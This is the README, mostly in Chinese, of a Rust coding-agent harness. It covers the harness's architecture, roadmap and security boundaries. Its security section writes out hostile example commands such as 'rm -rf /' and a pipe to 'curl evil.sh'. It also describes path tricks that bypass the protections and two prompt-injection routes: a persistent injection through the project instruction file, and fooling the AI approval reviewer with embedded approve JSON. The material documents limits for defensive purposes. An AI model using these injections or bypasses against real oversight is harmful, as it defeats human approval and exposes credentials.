


# QCodeHarness


> 基于 Rust 的 Coding Agent 执行框架：在真实代码仓库里规划任务、调用工具、改代码、跑测试，产出可审查的结果。

**English:** A coding agent harness written in Rust. The model proposes actions;
the harness keeps control of file writes, command execution and permission
gates, and every step leaves reviewable evidence. Process sandboxing runs on
Windows today, Linux and macOS degrade gracefully. Documentation below is in
Chinese.

模型只负责提议动作，文件读写、命令执行与审批判断始终由 Harness 控制。
进程沙箱目前只在 Windows 上生效，Linux 与 macOS 降级执行（见[第 8 节](#8-安全边界)）。

**项目定位：**工程实践与技术学习优先，先复刻成熟能力，再依据真实使用和评测结果改进。AI 参与设计与编码，人类工程师负责关键决策、代码审查、测试验收和上线授权。

**项目状态：**可运行原型，持续迭代中。单任务 Coding Agent 的主链路、中断后的
任务级恢复、token 预算驱动的上下文压缩，以及常驻任务服务、版本化 stdio 协议、
Rust SDK 与终端/TUI 前端均已就绪；跨平台进程沙箱、多用户与 IDE 接入仍在后续阶段。
当前版本 `1.0.0`（稳定候选）：本轮完成的是**本地发布产物准备**（版本统一、
CI 门禁、安装/回滚/校验脚本与文档），`v1.0.0` **尚未在 GitHub 上发布**，
也**没有实测三平台 OS 级文件/网络隔离**（进程沙箱目前只在 Windows 上生效，
Linux 与 macOS 降级执行，见[第 8 节](#8-安全边界)）。安装、升级与回滚方法见
[docs/install.md](docs/install.md)；安全版本支持策略见
[.github/SECURITY.md](.github/SECURITY.md#支持的版本)。
实际进度以仓库代码、测试结果和运行记录为准，不以规划文字代表已完成能力。

## 这是什么

给模型一套工具和一条受控的边界，让它在你的仓库里把"改代码、跑测试、给出结论"
这件事按可审查的方式做完。

- **模型提议，Harness 决定**：模型说"我要读这个文件"，能不能读由路径校验、
  策略与审批闸门说了算，不给模型自己放宽规则的余地。
- **每一步留痕**：工具调用、拒绝理由、审批结果、token 消耗都写进证据文件，
  可回看、可追溯、可复查。
- **能收住**：命令有超时上限，进程有进程树终止，越界写入一律要问人。
- **断了能续**：会话级与任务级恢复，中断之后从断点继续，已完成的步骤不重跑。

## 快速开始（三步，按可信度递进）

**第 1 步 · 零配置，立刻看到 harness 的形状**

```bash
cargo run --example custom-tool-source
# 注册表里有 11 个工具: ["read_file", "read_files", "list_dir", "write_file",
#  "search_text", "edit_file", "apply_patch", "run_command", "git_status",
#  "git_diff", "char_count"]
```

**第 2 步 · 仍不需要 API key，看真实运行留下的证据**

```bash
cargo run -- --report
```

**第 3 步 · 接上 OpenAI 兼容端点，跑一个真任务**

```bash
cp .env.example .env      # 填 LLM_BASE_URL / LLM_API_KEY / LLM_MODEL
cargo run -- "阅读 Cargo.toml，说明本项目用了哪些依赖"
```

前两步不需要任何密钥：第 1 步只跑内置示例，第 2 步只读
`.qcodeharness/sessions/*.jsonl`。第 3 步才需要你自己的模型服务，
完整环境变量表见[运行方式](docs/usage.md)。

不想装 Rust 工具链的话，[Releases 页面](https://github.com/TianMingXTU/QCodeHarness/releases)
有 Windows、Linux、macOS 的压缩包，解压后直接运行 `QCodeHarness`，
用法与上面一致。

> 仓库里**没有**免密钥就能看到完整 ReAct 循环的入口：第 1 步展示工具与注册表，
> 第 3 步才展示模型驱动的完整循环。

## 名字对照

| 出现在哪 | 叫什么 |
| --- | --- |
| GitHub 仓库 | `TianMingXTU/QCodeHarness` |
| Cargo 包名 | `QCodeHarness`（库目标名 `qcode_harness`） |
| 可执行文件 | `QCodeHarness` |

作为库依赖时用 `qcode_harness`；作为命令行跑时用 `cargo run --`。

## 目录

- [1. 项目目标](#1-项目目标)
- [2. 总体架构](#2-总体架构)
- [3. Coding Agent 任务执行流程](#3-coding-agent-任务执行流程)
- [4. 核心能力规划](#4-核心能力规划)
- [5. 技术选型](#5-技术选型)
- [6. 迭代路线](#6-迭代路线)
- [7. 人机协作与质量控制](#7-人机协作与质量控制)
- [8. 安全边界](#8-安全边界)
- [9. 运行方式](#9-运行方式)
- [10. 项目资料](#10-项目资料)
- [11. 预期成果](#11-预期成果)

## 1. 项目目标

本项目计划构建一个可扩展、可控制、可追踪的 Coding Agent Harness，使 AI 能够在指定代码仓库内完成常见的软件工程任务：

- **缺陷修复：**分析失败日志、定位问题、修改代码、运行回归测试。
- **功能开发：**理解需求、拆解工作、编写实现及相应测试。
- **代码重构：**分析影响范围，实施小步修改并验证兼容性。
- **代码评审：**结合 Git diff 和项目上下文识别风险，提交审查建议。
- **测试与诊断：**执行编译、单元测试、静态检查，收集证据并反馈。

项目不训练基础大模型，也不以重新实现现成的 HTTP、异步或模型 SDK 为目标。重点研究 **Harness 如何协调模型、工具、状态、权限和工程验证**。

## 2. 总体架构



架构职责按以下原则划分：

| 模块 | 主要职责 |
| --- | --- |
| Agent Runtime | 驱动模型与工具之间的多轮交互，维护任务状态及停止条件。 |
| 任务与工作流模板 | 为修 Bug、开发功能、代码评审等任务提供可复用执行流程。 |
| 上下文与会话管理 | 管理项目规则、相关代码、对话历史、上下文裁剪与恢复。 |
| 模型适配器 | 统一模型请求、流式响应、工具调用数据结构。 |
| 工具注册与调度 | 注册内置工具和 MCP 工具，校验参数并收集执行结果。 |
| 权限策略与人工审批 | 控制文件访问、命令执行、外部连接及高风险操作。 |
| 事件记录与评测 | 记录每一步操作、耗时、Token 消耗、错误及任务结果。 |

模块之上是一组**扩展点**：模型提供方（`LlmProvider`）、工具来源（`ToolSource`）、
工具守卫（`ToolGuard`）、运行挂点（`RunHooks`）、上下文策略（`ContextPolicy`）
都以 trait 定义在应用层，各有默认实现，装配集中在 `main.rs` 与
`AgentDependencies`。想加新行为时先找扩展点、不改核心循环；完整落点表与
"明确不做"的范围见 [docs/architecture.md](docs/architecture.md)。

## 3. Coding Agent 任务执行流程



任务循环必须支持用户取消、超时、工具失败、预算耗尽和安全终止。模型提出操作意图，但**实际文件读写、命令执行以及权限判断由 Harness 控制**。

## 4. 核心能力规划

### 4.1 Agent 与多智能体协作

第一阶段优先让**单 Agent 执行循环**稳定运行；在此基础上逐步加入明确分工的多 Agent 机制：

| 角色 | 职责 |
| --- | --- |
| Planner | 理解目标、拆解任务、安排执行顺序。 |
| Coder | 阅读与修改代码，依据反馈持续修复。 |
| Tester | 运行测试、分析失败、提供验证结果。 |
| Reviewer | 审查 Diff、风险、工程规范和可维护性。 |
| Summary / Memory | 整理任务结论、重要上下文和可复用经验。 |

所有 Agent 共用 Harness 的工具权限、会话状态和执行记录；**多 Agent 不是默认并行执行所有任务**，而是根据任务复杂度按需启用。

### 4.2 内置工具与 MCP

内置工具按能力分组：

- **代码操作：**文件浏览、读取与修改、全文搜索、补丁应用、Git diff。
- **执行验证：**Shell、编译、测试、Lint、格式化、结果采集。
- **研发辅助：**文档查询、API 调试、日志诊断，后续扩展浏览器验证。

通过 MCP Client 对接符合协议的 MCP Server，按需接入代码托管、工单、文档知识库、CI/CD 和其他企业研发服务。**MCP 工具与内置工具适用同一套授权、审批、超时和审计机制**。

### 4.3 工作流模板

初期建设四类模板：

| 模板 | 标准流程 |
| --- | --- |
| Bug 修复 | 获取复现信息 → 定位原因 → 修改 → 测试 → 评审 → 交付 |
| 功能开发 | 理解需求 → 规划实现 → 编码 → 补充测试 → 验收 |
| 代码评审 | 读取 Diff → 分析上下文 → 检查风险 → 提交建议 |
| 重构 | 明确行为基线 → 分批修改 → 回归测试 → 对比结果 |

模板用于规范默认执行方式；具体动作仍由 Agent 结合实际仓库状态判断，不能只靠固定顺序机械执行。

## 5. 技术选型

| 类别 | 当前或计划采用 | 说明 |
| --- | --- | --- |
| 核心开发语言 | **Rust（已采用）** | Harness、工具编排与执行控制。 |
| LLM 生态 | **Rig（已采用）** | 通过 `rig-core` 接入模型，保留替换空间。 |
| 异步运行时 | Tokio（已采用） | 异步 I/O、子进程与超时控制。 |
| 数据与 HTTP | Serde、TOML、Reqwest（已采用） | 通过 Rig 使用 Reqwest 发起模型请求。 |
| CLI / TUI | **手写 CLI + 手写全屏终端（已采用）** | 文本与 TUI 前端共用同一命令语法和服务端口，依赖 `crossterm`；Clap / Ratatui 未采用。 |
| 代码检索 | **`ignore` + `regex`（已采用，ripgrep 自己用的那套）** | `search_text` 遵循 `.gitignore`（含嵌套目录），支持正则与扩展名过滤；符号级检索留给 tree-sitter。 |
| 代码分析 | Tree-sitter（计划） | 语法结构与代码导航。 |
| 数据存储 | JSONL（已采用）；SQLite（待按需评估） | 保存会话证据和运行报表。 |
| 工具互联 | MCP stdio（已采用） | 扩展外部工具与研发系统。 |
| 进程与隔离 | Windows Job Object（已采用）；Linux/macOS 沙箱（计划） | 当前边界只覆盖资源与进程树，尚未隔离文件系统与网络。 |

选型以成熟生态、可维护性和可测试性为优先，避免在首版引入复杂的分布式编排。

## 6. 迭代路线

| 阶段 | 交付重点 | 验收目标 |
| --- | --- | --- |
| M1 · 最小运行 | Rust CLI、模型调用、单 Agent Loop、基础工具协议 | 模型能够连续调用工具并正确停止。 |
| M2 · 真实编码 | 文件与 Git 工具、Shell、补丁、测试 | 在隔离测试仓库内独立完成一次缺陷修复。 |
| M3 · 可靠性 | 审批、超时、状态保存、上下文管理、安全隔离 | 能处理中断、失败和越权请求，保留完整记录。 |
| M4 · 平台扩展 | 工作流模板、MCP、多 Agent | 完成至少一个跨角色、跨工具的编码任务。 |
| M5 · 实际使用与评测 | 固定任务集、使用记录、成本与成功率分析 | 用可复现实验评估质量，并持续改进。 |
| P10 · 长任务接续 | 任务级恢复、可观察的上下文压缩 | 中断后的任务能从原步骤继续，压缩后仍有找回关键证据的路径。 |
| P11 · 编码能力与执行效率 | 结构化补丁工具、gitignore 感知的搜索、按角色分配模型与档位 | 一次改多处不必逐处改；搜得到才谈得上修得对；每轮延迟按角色摊薄。 |
| P11 · 可执行边界 | 文件系统与网络隔离、跨平台沙箱、扩展工具治理 | 高风险工具的能力边界由运行时验证，各平台降级与拦截都有证据。 |
| P12 · 扩展平台 | 配置化角色、Skill、Hook、插件与多 Agent 协作 | 不修改核心代码即可接入一个经过审批的新能力，并保留统一审计。 |
| P13 · 开发生态 | TUI、实时事件协议、SDK/ACP、IDE 与版本工程集成 | 其他前端能复用同一套任务、审批和工具执行语义。 |
| P14 · 真实评测 | 跨语言、长任务、失败恢复与安全基准；质量报告 | 用公开可复现的质量、成本、时延和安全数据决定发布门槛。 |
| P15 · 稳定发布 | 安装升级、兼容迁移、文档、诊断与受控发布 | 新环境可安装、旧会话可迁移、发布与故障处置可复现。 |

上述为**计划里程碑**，不表示已完成或已承诺具体交付日期。

下表是各阶段的当前状态与目标。交付明细、完成判据与当前边界在
[docs/roadmap.md](docs/roadmap.md)。

| 阶段 | 状态 | 目标 |
| --- | --- | --- |
| P10 长任务可靠性 | 已完成 | 任务级恢复、token 预算上下文压缩 |
| P11 执行边界 | 已完成 4 个切片 | 命令级硬拒绝、fail-closed、MCP 进程纳入 Job |
| P12 扩展与协作 | 已完成 | 分层配置与指令、Skill / Hook / 插件、子 Agent 委派 |
| P13 交互与集成 | 已完成 | 常驻任务服务、版本化 stdio 协议、Rust SDK、文本与全屏终端 |
| P14 真实评测 | 进行中 | 跨语言与大仓库基准 |
| P15 稳定发布 | 未开始 | 安装升级、兼容迁移、诊断 |

#### P10 的实施切片（已交付）

P10 按以下四个切片交付，每片都有独立测试；能力与边界见[任务级恢复（--resume-task）](docs/usage.md#任务级恢复--resume-task)一节：

1. **任务级状态**：给 `Task` 与运行快照建立明确对应关系，保存原目标、步骤、
   当前步骤、已完成输出和会话；继续时校验快照、任务与工作树的一致性。
2. **有界恢复**：遇到预算耗尽、模型瞬断、审批中的进程中断，能回到一个完整
   轮次继续；没执行完的工具调用、已经发生的副作用和恢复后的重试要有可审计
   处理，不能静默重复。
3. **上下文与证据分离**：会话与证据保持完整；传给模型的历史按 token 预算
   裁剪。压缩摘要带入步骤边界和未完成事项，同时保存可检索的调用/文件/
   命令索引，使“省略说明”指向真实可找回的地方。
4. **长任务基准**：至少一组超过现有 16 轮上下文窗口、跨步骤且至少一次中断
   恢复的任务，独立验证完成率、重复副作用、关键上下文保持和成本。

#### 先明确不做

- 暂不新增 Web UI、IDE 或大量工具；版本化 stdio 协议与 Rust SDK 已就位，
  这些前端留待稳定版阶段接入。
- 不做 ACP 的完整实现、IDE 插件与远程多用户调度：本版本的外部接入点只有
  现有 stdio 协议与 Rust SDK，Web 前端、IDE 插件与远程调度都不在本次范围。
- 不把“扩展可安装”当作默认放行；第三方 Hook、MCP 与插件仍须经过来源可信、
  权限声明、审批和资源边界。
- 不以单次模型得分作为完成证据；基准必须固定任务、执行环境和判据。
- 不为假想的多用户服务提前引入分布式调度或数据库；当前先保证本地单任务
  状态可验证、可恢复。

## 7. 人机协作与质量控制

本项目采用“AI 实现、人类负责”的协作方式：AI 可以阅读参考实现、编写代码、补充测试和修复问题；工程师负责架构选择、关键代码理解、风险评估、验收与合并。

每次可验收的变更应尽量包含：

1. 任务目标及影响范围。
2. 代码修改说明和可检查的 Git diff。
3. 实际执行的构建、测试命令及其结果。
4. 已知风险、未解决问题和后续处理建议。

重点模块包括 Agent Loop、工具执行、权限控制、上下文管理及会话恢复，应特别审查异常路径和边界条件。不得以“AI 声称测试通过”代替真实测试结果。

具体的贡献入口、提交前必须跑的验证命令与分层红线，见[贡献指南](.github/CONTRIBUTING.md)。

## 8. 安全边界

系统处理真实代码仓库和可执行命令，必须明确以下约束。漏洞报告方式见[安全策略](.github/SECURITY.md)。

- 模型与 Agent 不直接获得无限制宿主机访问权：agent 经 **run_command / git_status / git_diff / 基准判据**发起的子进程，在**有进程沙箱的平台**（当前是 Windows Job Object）上运行在**进程沙箱**内——整树内存上限（单进程 4 GiB）、进程数上限（256）、超时或结束时**终止整个进程树**（含孙进程；`cmd /C "start /b ..."` 拉起的后代不再失控）。其他平台没有进程沙箱，降级执行：没有资源限额，超时只终止直接子进程，后代进程可能继续运行。沙箱默认强制生效、**不可关闭**（没有 `--disable-sandbox` 之类的开关）。失败时的取向按平台分开：**Windows 上沙箱创建失败 → 创建阶段直接拒绝，一个子进程都不启动**（fail-closed）；平台没实现（Linux、macOS 等）或子进程纳入失败时降级执行，模型会在工具结果开头看到"进程沙箱未生效"的提示，且这次执行会另发一条 `AuditEvent::SandboxApplied` 证据记下"未生效"。**范围外**：无——MCP Server 进程由 `QCH_MCP_CONFIG` 里的用户命令直接拉起，不走 `run_command` 那条执行路径，但适用同一套沙箱取向：Windows 在**启动进程之前**建 Job（建不起来就让该 Server 连接失败，与命令侧的 fail-closed 同一条线），并在**握手之前**按 PID 把启动它的那个进程纳入同一个 Job Object（限额与整树终止见[可执行边界](docs/usage.md#可执行边界)一节）。纳入只能覆盖该进程**之后**创建的子孙，所以先后顺序不是细节而是前提：握手成功本身就证明 `uvx`/`npx` 拉起的 Server 子进程已经存在，那时才纳入，进 Job 的只有 launcher。纳入失败、拿不到 PID 或非 Windows 平台时回退为无保护并如实记 `active=false`。文件系统与网络仍不受 Job 约束，环境变量也不脱敏（见下方已知边界）。
- **命令级越界是硬拒绝**：`run_command` 在 spawn 之前按结构化 shell 词法模型逐段检查命令（见"可执行边界"），出现指向 **workspace 外**的盘符绝对路径、UNC 路径、`..` 成分，或把输出重定向 / 用 `--flag=` 指向 workspace 外——任何一段命中都直接拒绝，**策略放行和人工审批都覆盖不了**。判据是根感知的：根内的绝对路径（`type D:\repo\src\main.rs`）照常放行。这与"越界写入必审"是两道防线：那条给人一次复核机会，这条是最后一道机械边界（详见[可执行边界](docs/usage.md#可执行边界)一节）。
- **受保护路径，agent 读写都被拒**：`.git`、`.qcodeharness`、以及根下的 `.env` / `.env.*`。这几个前缀命中的路径，`read_file` / `write_file` / `edit_file` / `list_dir` 直接在**路径解析**阶段拒绝，**不看策略配置**——策略能把一条规则放宽到 `allow`，但放不宽这一层。这样设计是因为"保护不留给自己去申请的许可"：历史、会话快照与凭据一旦被 agent 读到或改写，破坏是不可逆的，而任何"配置项忘了写"都会让它裸奔。`.gitignore`、`.github` 这类同样以 `.git` 开头的名字不受影响（只精确匹配 `.git`）。判定按下列口径归一化，三种变形都堵：**大小写**不敏感（所有平台都按不敏感比较。Windows 与 macOS 是文件系统语义使然，`.ENV`、`.Git/` 与 `.env`、`.git/` 是同一处；Linux 上是主动多拒几个形似路径的保守取舍，代价是一次误拒，漏拒的代价是泄露凭据）；**尾随空格和点**先剥掉再比（NTFS 本就会剥，`.env ` 落在磁盘上就是 `.env`——不归一化，把路径写成 `.env ` 就能读到凭据，而审批界面上显示的还是 `.env `）；**符号链接 / junction** 解析后再查一遍（在 workspace 里 `mklink /J jgit .git`，词法上 `jgit/config` 完全合法，落盘却打在真实的 `.git/config` 上）。
- **越界写入必审**：策略判 `allow` 的命令，若看起来在 workspace 之外写东西——`del`/`rd`/`rmdir`/`move`/`ren`/`copy`/`rm`/`mv`/`cp`/`mkdir`/`Remove-Item` 这类动词配上盘符绝对路径、UNC 路径或含 `..` 的参数，或 `>` / `>>` 重定向到外部——会被**追加升级为 `require_approval`**，理由是升级的触发点。这类请求**不吃会话信任**——`a` / `p` 存下的信任对它们无效，每次都要重新问。**不限写入型动词**：任何提到 workspace 外路径的参数都触发升级，`--flag=value` 形态连等号后面的值一起看。原因是 `git diff --output=C:\x` 这类命令既没有写入动词也没有 `>`，却真的把 workspace 的内容写到外面（本机实测会落盘）——而默认基线恰好放行 `git diff *` 一族，只按动词判会让两道防线同时失守。
- 文件操作限制在指定 Workspace 内，防范路径越界。
- Shell、MCP 和外部连接遵循最小权限原则；高风险操作必须审批。
- **审批信任按粒度收紧**：`a` 只信任"同名工具 + 完全相同的参数"，参数不同的同工具调用照问；`p` 按用户输入的前缀模式信任（`Bash(cargo test:*)` 语义）。会话信任存在内存里，不跨运行持久化。
- **项目指令不改硬边界**：`QCODEHARNESS.md`（或 `.qcodeharness/instructions.md`）注入的是系统提示词，只改变模型"想做什么"，不改变它"能做什么"——工具白名单、受保护路径、策略规则一道都不松。但它是一条**被低估的 prompt 注入面**：根位置不在受保护名单里，agent 自己能写；详见下方已知边界。
- MCP Server 连接与工具发现各有独立超时（启动+握手 30 秒、发现阶段 15 秒，单次调用另有 120 秒）："握手成功但对工具清单无响应"的半死 Server 会被收口成可读错误并降级为警告，不会挂死启动。连接断开的后果与恢复入口见[MCP 生命周期、故障证据与安全恢复](docs/usage.md#mcp-生命周期故障证据与安全恢复)一节：超时/断连只放弃请求、原调用不自动重放，恢复只有 `--mcp-reconnect <服务器名>` 这一个显式有界的运维入口。
- 记录操作日志、退出码、文件变更和测试结果，便于追踪及回滚。
- 对超时、异常输出、取消和资源耗尽实施可控终止。
- **未经充分测试与授权，不允许自动执行生产环境发布、删除数据或其他高风险变更。**

沙箱的已知边界（决定"能不能上真实仓库"的判断）：Job Object 管不住**沙箱边界之外**的能力——命令仍可访问网络、读取用户文件（环境脱敏只清进程环境变量，不隔离文件系统），spawn 与纳入 Job 之间的窗口内拉起的孙进程不在树内（有意接受的取舍，未用 CREATE_SUSPENDED 收窄）。沙箱是"跑起来之后最多祸害多少"的机械边界，不是操作系统级的完全隔离；文件系统级隔离（AppContainer/受限令牌）是明确的非目标。**MCP Server 进程的边界**：Windows 上，harness 先建 Job、再启动进程、然后在**握手之前**按 PID 把它纳入与其他子进程同一个 Job Object——于是受内存/进程数限额约束，连接结束时整树终止（含它在纳入之后自己拉起的子进程与孙进程；rmcp 自身只 `kill()` 直接子进程，Job Object 把覆盖面补到整树）。覆盖范围以纳入时刻为界：Windows 不会把纳入之前就已存在的子进程追溯拉进来，所以顺序挪到握手之后就等于只剩一个管着 launcher 的 Job，而 `uvx`/`npx` 形状下真正干活的 Server 恰好在外面。仍**不受**保护的是：文件系统与网络（Job Object 本就不管这两样）、环境变量（不脱敏）；单次工具调用超时只放弃该请求、不中断 Server。非 Windows 平台、PID 已失效或纳入失败时，回退为无保护，证据里 `active=false` 如实记。接第三方 MCP Server 前仍需自行评估其可信度。**非 Windows 平台没有等价沙箱**：`PlatformCapabilities::detect()` 编译期判定，这类平台上一律降级执行，模型与审计证据都能看到"未生效"的声明，但这不等于有保护。

安全策略、实际沙箱强度和部署适用范围以实现和验证结果为准。

沙箱之外各机制的已知边界（同样影响"能不能上真实仓库"的判断）：

- **`command_prefix` 的 `*` 不吞 shell 链接符，但也不认引号。** `cargo test *` 不放行 `cargo test && rm -rf /`、`cargo test ; del x`、`cargo test | curl evil.sh`（命令头之后一出现 `&&` `||` `;` `|` `&` 或换行，规则就不命中，退回审批）。代价是 `cargo test 2>&1` 也要多问一次——单个 `&` 被算作链接符，这是刻意偏向多问的取舍。反过来，`echo "a && b" > out.txt` 这种把链接符写在引号里的写法会被误判为链接（宁可多问，不放宽）。
- **deny 规则的条件无法求值时按拒绝处理。** 参数名不叫 `path`/`command` 时（MCP 工具、`git_diff`、未来新工具），作用域条件无从求值；`deny` 遇到这种情形直接拒绝而不是落回默认策略，否则一条"禁止碰 secrets/"会因为参数名不同而静默失效、翻成放行。`allow` 侧仍要求条件成立。
- **越界写入检查是词法判定，不是沙箱**。它按结构化模型逐段检查词元中的绝对路径、`..`、UNC、卷根重定向及 `--flag=value`（两道防线共用同一份解析，重复切词已消除）；但认不出经过变量间接拼出的路径，也不模拟 shell 的求值、展开与转义。它把"看起来越界"的调用升级成"必须问人"，是**兜底**而不是**隔离**——真正的隔离仍然要靠进程沙箱与受保护路径。理由文案沿用三种既有模板：单段不加段号，多段命令的理由追加"（第 N 段，程序 `X`）"；结构化模型收齐的重定向目标按"输出重定向"归类，`<` 的目标只在词元扫描里按"提到越界路径"拒绝、不误写成输出重定向。这些文案都不声称覆盖全部绕过手段。
- **策略层升级与执行层硬拒绝用了不同口径的判据**。越界升级判据 `write_escape_suspect` 没有根可看，把所有盘符绝对路径都算嫌疑；硬拒绝判据 `write_escape_beyond` 知道根在哪。两道防线跑在同一份结构化解析结果上，落差只剩"有没有 workspace 根"这一个参数，但语义未变。后果有二：一是**真越界**命令经人批准后仍被工具层拒绝——"用户按 y 放行一条越界命令"的结果是审批通过、执行被拒；二是**根内的绝对路径**会被越界升级检查判成一次多余的审批（点完 y 照样执行）。两者都是有意取舍：升级判据保持宽松口径（多问一次的代价可承受），硬拒绝判据必须准（拒绝的代价是任务跑不动）。表现上像多余的审批点击，代价由使用者承担——遇到时请把 workspace 根换到目标目录，而不是反复放行。
- **受保护路径只覆盖 workspace 内的相对路径**。`WorkspacePath` 先拒越界再查保护，所以 `../../.git/config` 命中的是越界拒绝而不是保护拒绝（都是拒，理由不同）。workspace 之外的路径由越界检查负责，与保护名单无关。同理，`run_command` 与 `git_*` 不经过 `WorkspacePath`——`type .env`、`git show HEAD:.env` 这类读法不在保护范围内，靠的是策略与审批。
- **链接解析只在文件类工具这一侧**。junction / 符号链接的复查放在 infrastructure 层（`resolve_in`）：领域层不许碰文件系统，`canonicalize` 只能在那里调。因此这条防线对 `run_command`、`git_*` 和 MCP 工具无效——它们本就不经过 `WorkspacePath`（见上一条）。反过来，解析失败（目标不存在、盘符不对）时不追加拒绝，否则新建文件会被挡住。
- **`search_text` 也读不到凭据文件**：它按跳过名单遍历，`.env`/`.env.*` 整份跳过（大小写不敏感）。`read_file` 拒了 `.env`，但搜索若不跳过，就能把凭据行连同行号打印出来，同一份秘密换条路就能读到。`.gitignore` 感知**不放松**这条：凭据保护判的是文件名本身，与 ignore 状态无关。
- **`.gitignore` 只影响"搜什么"，不影响"能不能读"**。`read_file` 读一个被 ignore 的文件仍然允许——ignore 状态是给全文翻找降噪的，不是又一层读权限闸门。实现上用 `ignore` crate（ripgrep 自己用的那套），并额外显式跳过 `.git`/`target`/`node_modules`/`.qcodeharness`——`.git` 本身不受 gitignore 规则管，`target` 是否被 ignore 取决于项目有没有写那条规则，不能赌。
- **`search_text` 的正则模式是线性时间引擎**。用 `regex` crate 而不是 `fancy-regex`：后者支持回溯引用，理论上可被构造出指数级的输入（ReDoS），搜索的输入来自模型而模型会被提示注入影响。`regex` crate 不回溯，最坏情况是线性的，代价是 `\d` 之类的高级特性不支持。
- **`apply_patch` 改名阶段失败不回滚**。前半程（内容计算、路径校验、写临时文件）失败时工作区一个字节都没变；最后的"临时文件改名成目标文件"这一步失败时，**已改的保留、不回滚**，结果里逐个列出已改与未改的文件。理由：回滚本身也可能失败（磁盘满、文件被占用），"部分成功 + 如实报告"比"回滚失败导致状态更乱"诚实。删除失败同样只报告不阻断。
- **推理档位会断前缀缓存**。档位改写 wire 上渲染出来的指令，前缀变了缓存就命不中。同一个角色内档位恒定即可保住该角色自己的缓存；角色切换时缓存本来就断（系统提示词不同），与档位无关。
- **`path_prefix` 只作用于路径参数**（`path`），`command_prefix` 只作用于 `command` 参数；工具用了别的参数名时该条件不成立——拼写错误的字段名在加载时报错，拼写错误的**参数名**不会（deny 会 fail-closed，allow 会退化成不命中）。
- **项目指令是一条被低估的 prompt 注入面**，而且是这些机制里唯一"全部载荷都是不可信文本"的一条。根位置 `QCODEHARNESS.md` **不在**受保护名单里，agent 自己能写：只要诱导 Coder 把一段藏指令的文本写进那个文件，一次性注入就固化成"此后每次运行、每个角色都生效"的系统提示词，而注入段的标题还声明它优先于通用规则。启动时只打印路径与字节数，不展示内容、不要求确认。次级位置 `.qcodeharness/instructions.md` 在受保护路径内、模型改不动，但根位置改得动——这是有意的取舍（使用者要能随时编辑它），代价由使用者承担。缓解：发现注入后删掉根文件；但已存快照里的提示词不会因此更新，`--resume` 的会话仍按旧提示词跑，唯一的净化方式是丢弃会话重跑。
- **AI 审批审查员（`--ai-review`）不是安全机制**。它用同一个模型判断风险，审查提示词可以被它自己读到的内容影响（提示注入）——把 `{"decision":"approve"}` 写进 `run_command` 的 `command` 参数里，审查员极可能照办并输出放行 JSON，全程无人过问。因此它只减少人工打断次数，不替代人工判断；任何解析失败、超时、空回复、或它自己选 `human`，都**退回交互式闸门问人**——fail-closed，没有"默认放行"这条路。审查自身的模型调用不产生证据事件，放行在审计里与"人按 y"同形（拒绝带 `AI 审查员拒绝了` 前缀，放行不带）。

## 9. 运行方式

完整用法在 [docs/usage.md](docs/usage.md)：环境变量表、按角色分配模型与档位、
上下文与预算、会话恢复、任务级恢复、任务编排、内置工具、扩展点、配置文件、
Skill / Hook / 插件、子 Agent 委派、结构化补丁、搜索、审批、AI 审批审查员、
策略配置、项目指令、MCP 接入、证据文件、运行报表、基准评测。

最快的三条命令见[快速开始](#快速开始三步按可信度递进)。

## 10. 项目资料

- [OpenAI Codex（Rust 实现参考）](https://github.com/openai/codex)
- [Rig（Rust LLM / Agent 生态）](https://rig.rs/)
